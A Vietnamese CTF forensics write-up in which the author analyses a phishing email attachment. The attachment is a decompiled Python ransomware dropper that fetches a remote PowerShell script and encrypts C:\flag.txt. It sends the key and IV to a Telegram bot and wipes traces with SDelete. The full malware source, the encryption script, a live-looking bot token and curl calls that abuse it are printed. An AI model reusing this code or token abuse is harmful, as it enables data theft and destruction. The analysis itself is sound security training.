


# Mô tả

Một nữ nhiên viên văn phòng ở công ty V đã nhận được một bức thư. Sau khi mở bức thư đó cùng với một tệp đính kèm, máy của cô nhân viên này đã có một số hoạt động bất thường cùng với đó là một file tài liệu rất quan trọng của cô ấy đã biến mất. Là một nhân viên phòng SOC, hãy giúp cô ấy tìm ra nguyên nhân và khôi phục lại file quan trọng đó. **Format flag: flag{the_flag}**

 **Related Resource:** File upload: https://drive.google.com/file/d/1ySNNOBafCzmj8evsp1QAB8tDtnKEV6q2/view?usp=sharing

# Phân tích

Bài cho 1 file ad1, load nó vào trong ftk imager. Thấy có 2 thư mục quan trọng là `Users\tamin` và `winevt\Logs (Chứa các file windows event logs .evtx)` 

Bởi vì mô tả nhắc đến việc nhân viên nhận được một bức thư nên có thể đoán được rằng đã tải một file độc hại về làm mất tài liệu cho nên ta kiểm tra thư mục của người dùng `tamin` trước

Tìm một lúc thì thấy trong `tamin\Documents\Outlook` có một file `VCS antivirus.eml`, extract ra xem nó là gì



Trong file có chứa một file .zip khác, khi lưu về và xuất ra thì ra một file `vcs_antivirus.exe` đưa lên [virustotal](https://www.virustotal.com/gui/file/ea5d1e2d0ddcc874cbfe969d7bf49e58f980bce01501f4e8a53107a0dacff736) thì có rất nhiều red flag 

Đưa file này vào DiE thì biết nó được code bằng python nên việc decompile không quá khó, dùng `pyinstractor.py` để lấy file python byte code `.pyc` ra rồi decompile về code python gốc ta được 

```py
import os
import requests
import subprocess
import zipfile
current_dir = os.path.dirname(os.path.abspath(__file__))
ps_script_url = 'https://raw.githubusercontent.com/TMQrX/temp/master/Qwertyu.ps1'
ps_script_path = os.path.join(current_dir, 'ps.ps1')
sdelete_zip_url = 'https://download.sysinternals.com/files/SDelete.zip'
sdelete_zip_path = os.path.join(current_dir, 'SDelete.zip')
sdelete_exe_path = os.path.join(current_dir, 'sdelete.exe')
flag_file_path = 'C:\\flag.txt'
temp_encrypt_folder = os.path.join(os.getenv('TEMP'), 'encrypt')

def download_file(url, destination):
    response = requests.get(url)
    with open(destination, 'wb') as file:
        file.write(response.content)

def extract_sdelete(zip_path, extract_to):
    with zipfile.ZipFile(zip_path, 'r') as zip_ref:
        zip_ref.extractall(extract_to)

def execute_powershell_script(script_path):
    process = subprocess.run(['powershell.exe', '-File', script_path], capture_output=True, text=True)
    output = process.stdout.splitlines()
    if len(output) >= 2:
        cee = output[0].strip()
        vee = output[1].strip()
        return (cee, vee)
    return (None, None)

def send_to_telegram(key, iv, token, chat_id):
    message = f'Key: {key}\nIV: {iv}0'
    url = f'https://api.telegram.org/bot{token}0/sendMessage'
    data = {'chat_id': chat_id, 'text': message, 'protect_content': True}
    response = requests.post(url, data=data)

def securely_delete_files(ps_script_path, flag_file_path):
    if os.path.exists(ps_script_path):
        subprocess.run([sdelete_exe_path, ps_script_path], check=True)
    if os.path.exists(flag_file_path):
        subprocess.run([sdelete_exe_path, flag_file_path], check=True)

def delete_encrypt_folder(folder_path):
    if os.path.exists(folder_path):
        for root, dirs, files in os.walk(folder_path, topdown=False):
            for file in files:
                file_path = os.path.join(root, file)
                move_to_recycle_bin(file_path)
            for dir in dirs:
                dir_path = os.path.join(root, dir)
                move_to_recycle_bin(dir_path)
        move_to_recycle_bin(folder_path)

def move_to_recycle_bin(item_path):
    ps_command = f'\n    $shell = New-Object -ComObject Shell.Application\n    $folder = $shell.Namespace(0xA)\n    $folder.MoveHere("{item_path}0")\n    '
    subprocess.run(['powershell.exe', '-Command', ps_command], check=True)

def empty_recycle_bin():
    ps_command = '\n    $recycleBin = New-Object -ComObject Shell.Application\n    $binFolder = $recycleBin.Namespace(0xA)\n    $items = $binFolder.Items()\n    $items | ForEach-Object { Remove-Item $_.Path -Force -Recurse }\n    '
    subprocess.run(['powershell.exe', '-Command', ps_command], check=True)

def main():
    download_file(ps_script_url, ps_script_path)
    download_file(sdelete_zip_url, sdelete_zip_path)
    extract_sdelete(sdelete_zip_path, current_dir)
    cee, vee = execute_powershell_script(ps_script_path)
    if cee and vee:
        telegram_token = '7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0'
        chat_id = '1617506446'
        send_to_telegram(cee, vee, telegram_token, chat_id)
    securely_delete_files(ps_script_path, flag_file_path)
    delete_encrypt_folder(temp_encrypt_folder)
    empty_recycle_bin()
if __name__ == '__main__':
    main()
```

## Phân tích malware

Nhìn chung thì cái malware này sẽ tải file `ps.ps1` từ link `https://raw.githubusercontent.com/TMQrX/temp/master/Qwertyu.ps1` và file `sdelete.exe` từ sysinternals rồi tạo thư mục `temp\encrypt` để chứa file `C:\\flag.txt` sau khi mã hoá

```py
current_dir = os.path.dirname(os.path.abspath(__file__))
ps_script_url = 'https://raw.githubusercontent.com/TMQrX/temp/master/Qwertyu.ps1'
ps_script_path = os.path.join(current_dir, 'ps.ps1')
sdelete_zip_url = 'https://download.sysinternals.com/files/SDelete.zip'
sdelete_zip_path = os.path.join(current_dir, 'SDelete.zip')
sdelete_exe_path = os.path.join(current_dir, 'sdelete.exe')
flag_file_path = 'C:\\flag.txt'
temp_encrypt_folder = os.path.join(os.getenv('TEMP'), 'encrypt')

def download_file(url, destination):
    response = requests.get(url)
    with open(destination, 'wb') as file:
        file.write(response.content)

def extract_sdelete(zip_path, extract_to):
    with zipfile.ZipFile(zip_path, 'r') as zip_ref:
        zip_ref.extractall(extract_to)
```

Vậy mục tiêu là tìm cách nào đó để giải mã file `flag.txt` này nhưng khi tìm trong thư mục temp lại không thấy `encrypt` đâu, đó là bởi vì sau khi thực hiện code powershell trong `ps.ps1` malware đã dùng `sdelete.exe` cùng với 1 vài lệnh powershell khác để xoá mọi thứ từ thư mục `encrypt` cho đến trong thùng rác và bao gồm chính file `flag.txt`

```py
def execute_powershell_script(script_path):
    process = subprocess.run(['powershell.exe', '-File', script_path], capture_output=True, text=True)
    output = process.stdout.splitlines()
    if len(output) >= 2:
        cee = output[0].strip()
        vee = output[1].strip()
        return (cee, vee)
    return (None, None)

def send_to_telegram(key, iv, token, chat_id):
    message = f'Key: {key}\nIV: {iv}0'
    url = f'https://api.telegram.org/bot{token}0/sendMessage'
    data = {'chat_id': chat_id, 'text': message, 'protect_content': True}
    response = requests.post(url, data=data)

def securely_delete_files(ps_script_path, flag_file_path):
    if os.path.exists(ps_script_path):
        subprocess.run([sdelete_exe_path, ps_script_path], check=True)
    if os.path.exists(flag_file_path):
        subprocess.run([sdelete_exe_path, flag_file_path], check=True)

def delete_encrypt_folder(folder_path):
    if os.path.exists(folder_path):
        for root, dirs, files in os.walk(folder_path, topdown=False):
            for file in files:
                file_path = os.path.join(root, file)
                move_to_recycle_bin(file_path)
            for dir in dirs:
                dir_path = os.path.join(root, dir)
                move_to_recycle_bin(dir_path)
        move_to_recycle_bin(folder_path)

def move_to_recycle_bin(item_path):
    ps_command = f'\n    $shell = New-Object -ComObject Shell.Application\n    $folder = $shell.Namespace(0xA)\n    $folder.MoveHere("{item_path}0")\n    '
    subprocess.run(['powershell.exe', '-Command', ps_command], check=True)

def empty_recycle_bin():
    ps_command = '\n    $recycleBin = New-Object -ComObject Shell.Application\n    $binFolder = $recycleBin.Namespace(0xA)\n    $items = $binFolder.Items()\n    $items | ForEach-Object { Remove-Item $_.Path -Force -Recurse }\n    '
    subprocess.run(['powershell.exe', '-Command', ps_command], check=True)
```

Nhưng trước đó thì malware đã gửi key và iv qua telegram dùng bot token `7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0` gửi đến chat id `1617506446` để ý đến phần `'protect_content': True` trong data gửi đi, sẽ rất quan trọng khi ta muốn lấy lại key và iv mà malware gửi cho id `1617506446`. Muốn biết key và iv lấy từ đâu và sử dụng kỹ thuật mã hoá nào thì sẽ phải phân tích file `ps.ps1`

Có 2 cách để xem nội dung của `ps.ps1` thứ nhất là tải link github trên kia về, sẽ biết payload được mã hoá bằng b64, decode sẽ cho ra một đoạn code rất dài với tên biến được đặt linh tinh nhằm làm khó phân tích có thể đổi tên biến cho dễ đọc. Cách thứ 2, dành cho trường hợp cái link trên bị xoá, bởi vì malware đã thực hiện lệnh powershell trên máy nên ta có thể tìm trong thư mục `Logs` 2 file quan trọng là `Windows PowerShell.evtx` và `Microsoft-Windows-PowerShell%4Operational.evtx`. Trong operational log, filter 4104 (Execute a Remote Command) thấy một script dài 3 block, đó cũng chính là nội dung của `ps.ps1`

```powershell

$FilePath = 'C:\flag.txt'

$AesKey = New-Object System.Security.Cryptography.AesManaged
$AesKey.KeySize = 256
$AesKey.BlockSize = 128
$AesKey.GenerateKey()
$AesKey.GenerateIV()

$B64Key = [System.Convert]::ToBase64String($AesKey.Key)
$B64IV = [System.Convert]::ToBase64String($AesKey.IV)

$FileContent = [System.IO.File]::ReadAllBytes($FilePath)

$EncryptFile = $AesKey.CreateEncryptor($AesKey.Key, $AesKey.IV)
$Encrypted = $EncryptFile.TransformFinalBlock($FileContent, 0, $FileContent.Length)

$B64Encrypted = [System.Convert]::ToBase64String($Encrypted)

[System.IO.File]::WriteAllText($FilePath, $B64Encrypted)

Write-Output $B64Key
Write-Output $B64IV

$TempDir = Join-Path ([System.IO.Path]::GetTempPath()) 'encrypt'

if (!(Test-Path $TempDir)) {
    New-Item -ItemType Directory -Path $TempDir
}

$Dir1 = $TempDir
$Dir2 = $FilePath

if (!(Test-Path $Dir1)) {
    New-Item -ItemType Directory -Path $Dir1
}

$ReadFile = Get-Content -Path $Dir2 -Raw

$counter = 1

foreach ($character in $ReadFile.ToCharArray()) {
    $replaced = $character -replace '[\\/:""*?<>|]', '_'
    $FileName = $counter * 111111
    $NewPath = "$FileName$replaced.txt"
    $FilePath = Join-Path $Dir1 $NewPath
    New-Item -ItemType File -Path $FilePath -Force
    Set-Content -Path $FilePath -Value 'tmq'
    
    $counter++
}
```

Script trên mã hóa nội dung của file `C:\flag.txt` bằng thuật toán AES, sau đó ghi lại nội dung đã mã hóa vào chính file này và thực hiện chia từng ký tự trong chuỗi đã mã hóa thành tên của nhiều file nhỏ theo quy tắc đặc biệt

Trước hết, script tạo AES key với khóa 256-bit và block size 128-bit sau đó tạo key và iv rồi chuyển chúng sang b64 (2 cái này sẽ được gửi qua telegram) rồi đọc nội dung của `flag.txt`, mã hóa bằng AES và lưu lại kết quả mã hóa (được encode base64) vào chính file `flag.txt` rồi tạo thư mục  `temp\encrypt` . Đọc `flag.txt` (đã bị mã hoá) và với mỗi kí tự:

- Thay thế các ký tự đặc biệt không hợp lệ trong tên file bằng `_`
- Tạo file với tên là: (số thứ tự * 111111) + ký tự đó + `.txt`
-  Ví dụ: nếu ký tự là `a` và `$counter` là 2 → file tên `222222a.txt` 
- Nội dung mỗi file là chuỗi `'tmq'`
- Tăng counter lên 1 và tiếp tục cho đến hết file

Lưu ý: Có thể thấy rằng sau khi tạo và encode b64 key và iv script có in chúng ra nhưng cái này chỉ để phục vụ cho việc malware lấy key và iv -> gửi qua telegram API chứ sẽ không tìm được 2 cái output này trong log của hệ thống (zzz)

```py
    if len(output) >= 2:
        cee = output[0].strip()
        vee = output[1].strip()
        return (cee, vee)
```


## Tìm nội dung flag.txt bị mã hoá

Vì tất cả đã bị xoá sạch nên các duy nhất chỉ còn tìm trong các file evtx thôi, kiểm tra `Windows PowerShell.evtx` thì sẽ thấy rất nhiều block như này

```powershell
Provider "Variable" is Started. 

Details: 
	ProviderName=Variable
	NewProviderState=Started

	SequenceNumber=11

	HostName=ConsoleHost
	HostVersion=5.1.19041.4780
	HostId=8094df58-b150-4cca-840f-6ea5f6668ada
	HostApplication=powershell.exe -Command 
    $shell = New-Object -ComObject Shell.Application
    $folder = $shell.Namespace(0xA)
    $folder.MoveHere("C:\Users\tamin\AppData\Local\Temp\encrypt\999999z.txt")
    
	EngineVersion=
	RunspaceId=
	PipelineId=
	CommandName=
	CommandType=
	ScriptName=
	CommandPath=
	CommandLine=
```

Có thể thấy `999999z.txt` thì kí tự `z` sẽ nằm ở vị trí số `999999 / 111111 = 9` trong nội dung `flag.txt` bị mã hoá. Vậy để tìm ra toàn bộ ta sẽ phải xuất nội dung của file evtx ra rồi tạo một cái script để lấy từ đó các đoạn này `C:\Users\tamin\AppData\Local\Temp\encrypt\999999z.txt` 

```py
import re

def extract_txt_filenames(input_file, output_file):
    pattern = r'([\w\d]+\.txt)' 

    with open(input_file, 'r', encoding='utf-8', errors='ignore') as f:
        content = f.read()

    matches = re.findall(pattern, content)
    unique_matches = sorted(set(matches)) 

    with open(output_file, 'w', encoding='utf-8') as f:
        for match in unique_matches:
            f.write(match + '\n')

# Gọi hàm
extract_txt_filenames('logs.txt', 'filenames_only.txt')

```

Xong rồi tự so độ lớn rồi lấy chữ cái ở cuối là được flag bị mã hoá

```bash
iUA7NgcGzu5bisAZiTYG42l8EiwsX16DX4sw5VLboU_5Y2HOUve+dEJncWg08kdI
```

Nhưng flag đang ở dạng filename safe nên ta cần chuyển lại dạng gốc. Script trên chỉ thay các kí tự không được dùng khi đặt tên file như `\ / : * ? ' < > |` thành `_` và trong đoạn b64 kia chỉ có 1 `_` nên ta chuyển nó thành kí tự b64 hợp lệ `/`

```
iUA7NgcGzu5bisAZiTYG42l8EiwsX16DX4sw5VLboU/5Y2HOUve+dEJncWg08kdI
```

## Tìm key và iv

Giờ chỉ cần tìm key và IV. Mọi thứ đều bị xoá trên máy nạn nhân, tìm trong các file evtx cũng không có gì. Đến đây khi phân tích lại code python lúc đầu thì thấy rằng

```py
def send_to_telegram(key, iv, token, chat_id):
    message = f'Key: {key}\nIV: {iv}0'
    url = f'https://api.telegram.org/bot{token}0/sendMessage'
    data = {'chat_id': chat_id, 'text': message, 'protect_content': True}
    response = requests.post(url, data=data)
    
#.........................................................................#

if cee and vee:
        telegram_token = '7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0'
        chat_id = '1617506446'
        send_to_telegram(cee, vee, telegram_token, chat_id)
```

Malware sử dụng method `sendMessage` để con bot gửi kết quả cho chat_id `1617506446`, vậy là sẽ có thêm mấy hàm như vậy nhưng dành cho getMessage chẳng hạn...., nhưng trước hết thì kiểm tra thông tin của con bot trước đã sử dụng `getMe`

```bash
$ curl https://api.telegram.org/bot7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0/getMe
{"ok":true,"result":{"id":7457737016,"is_bot":true,"first_name":"tmqsuperbot_bot","username":"tmqsuperbot_bot","can_join_groups":true,"can_read_all_group_messages":false,"supports_inline_queries":false,"can_connect_to_business":false,"has_main_web_app":false}}
```

Sau đó thử nhắn cho bot và chạy `getUpdates`

```bash
$ curl https://api.telegram.org/bot7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0/getUpdates
{"ok":true,"result":[{"update_id":908986582,
"message":{"message_id":734,"from":{"id":5143375419,"is_bot":false,"first_name":"euywghf","username":"namna772","language_code":"en"},"chat":{"id":5143375419,"first_name":"euywghf","username":"namna772","type":"private"},"date":1749024646,"text":"/start","entities":[{"offset":0,"length":6,"type":"bot_command"}]}}]}
```

Vậy là bot vẫn còn hoạt động, vừa nhận `/start` từ tôi và biết được chat_id tele của mình là `5143375419`

Giờ thì kiểm tra trên https://core.telegram.org/bots/api#available-methods để xem có các loại method nào lấy được tin nhắn mà bot đã gửi

Thử xem info của chat_id `1617506446` trước đã https://core.telegram.org/bots/api#getchat, method này chỉ yêu cầu chat_id được đưa vào

```bash
$ curl https://api.telegram.org/bot7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0/getChat?chat_id=1617506446
{"ok":true,"result":{"id":1617506446,"first_name":"py","username":"py0bf3c4t0r","type":"private","can_send_gift":true,"active_usernames":["py0bf3c4t0r"],"has_private_forwards":true,"accepted_gift_types":{"unlimited_gifts":true,"limited_gifts":true,"unique_gifts":true,"premium_subscription":true},"max_reaction_count":11,"accent_color_id":3}}
```

Đây là một người dùng tên là `py0bf3c4t0r` chưa có gì mới lắm, xem tiếp các method thì thấy có 2 method là [copyMessages](https://core.telegram.org/bots/api#copymessages) và [forwardMessages](https://core.telegram.org/bots/api#forwardmessages). Ở đây sử dụng `copyMessages` sẽ cho ta full key và iv, `forwardMessages` thì lại không làm được có lẽ là do **Service messages and messages with protected content can't be forwarded:** các tin nhắn được bật `'protect_content': true` thì sẽ không thể forward được, ta có thể thấy điều này trong code của malware. Với cả trong tài liệu api thì họ cũng nói rằng `copyMessages` gần như tương tự so với `forwardMessages` chỉ khác ở chỗ forward sẽ hiển thị reference đến người đã gửi tin nhắn trong chat là ai, còn copy thì chỉ là copy y nguyên thôi không quan trọng của ai cả nhưng tất nhiên là để lấy key và iv thì không cần biết điều đấy rồi.

```py
data = {'chat_id': chat_id, 'text': message, 'protect_content': True}
```

Và để forward hoặc copy thì ta cần có 3 parameter bắt buộc phải đưa vào là `chat_id`(Sẽ là cho id mà bot sẽ gửi tin nhắn đến, ở đây nên là chatid của mình, và trước đó phải start con bot này đã `5143375419`) `from_chat_id`(Nội dung chat được lấy từ id nào ở đây sẽ là `1617506446`) và `message_ids`(cái này là 1 array, có thể đưa 1 giá trị vào array cũng chả sao, có thể dùng 2 hàm `copyMessage` với `forwardMessage` nếu muốn lấy riêng 1 id vì không biết id nào nên lấy luôn từ 1 đến 10)

| Parameter            | Type              | Required | Description                                                  |
| :------------------- | :---------------- | :------- | :----------------------------------------------------------- |
| chat_id              | Integer or String | Yes      | Unique identifier for the target chat or username of the target channel (in the format `@channelusername`) |
| message_thread_id    | Integer           | Optional | Unique identifier for the target message thread (topic) of the forum; for forum supergroups only |
| from_chat_id         | Integer or String | Yes      | Unique identifier for the chat where the original messages were sent (or channel username in the format `@channelusername`) |
| message_ids          | Array of Integer  | Yes      | A JSON-serialized list of 1-100 identifiers of messages in the chat *from_chat_id* to forward. The identifiers must be specified in a strictly increasing order. |
| disable_notification | Boolean           | Optional | Sends the messages [silently](https://telegram.org/blog/channels-2-0#silent-messages). Users will receive a notification with no sound. |
| protect_content      | Boolean           | Optional | Protects the contents of the forwarded messages from forwarding and saving |

Ví dụ **forwardMessages** (không trả key với iv bởi chúng được gửi đi là protected content)

```
https://api.telegram.org/bot7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0/forwardMessages?from_chat_id=1617506446&message_ids=[1,2,3,4,5,6,7,8,9,10]&chat_id=5143375419

{"ok":true,"result":[{"message_id":760}]}
```


Ví dụ **copyMessages** (không quan tâm protected hay không)

```
https://api.telegram.org/bot7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0/copyMessages?from_chat_id=1617506446&message_ids=[1,2,3,4,5,6,7,8,9,10]&chat_id=5143375419

{
  "ok": true,
  "result": [
    {
      "message_id": 761
    },
    {
      "message_id": 762
    },
    {
      "message_id": 763
    },
    {
      "message_id": 764
    },
    {
      "message_id": 765
    },
    {
      "message_id": 766
    },
    {
      "message_id": 767
    },
    {
      "message_id": 768
    },
    {
      "message_id": 769
    },
    {
      "message_id": 770
    }
  ]
}
```



# Flag

Có rất nhiều key và IV được gửi nhưng đoán là cái đầu tiên là key và IV được tạo ra lúc mã hoá `flag.txt` đưa vào [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)AES_Decrypt(%7B'option':'Base64','string':'%2BaiywnFuZEvfh0xZOtC1xR7HsNLFapkvjaDhdp%2BgANE%3D'%7D,%7B'option':'Base64','string':'e3P16mVzbGDaSGsAzCPNJQ%3D%3D'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=aVVBN05nY0d6dTViaXNBWmlUWUc0Mmw4RWl3c1gxNkRYNHN3NVZMYm9VLzVZMkhPVXZlK2RFSm5jV2cwOGtkSQ&oeol=FF) thì chính xác và ra flag

`flag{rAnS0MWAR3_wiTH_Te1EgRam_is_FUn_r1ghT???}`
